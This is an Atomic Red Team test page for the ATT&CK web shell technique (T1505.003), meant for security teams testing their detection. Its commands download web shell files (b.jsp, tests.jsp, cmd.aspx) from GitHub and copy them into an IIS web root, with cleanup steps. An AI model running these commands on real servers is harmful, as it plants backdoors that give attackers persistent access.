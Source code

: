 # T1505.003 - Server Software Component: Web Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/003)
<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (ex: [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | String | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | Path | PathToAtomicsFolder&#92;T1505.003&#92;src&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
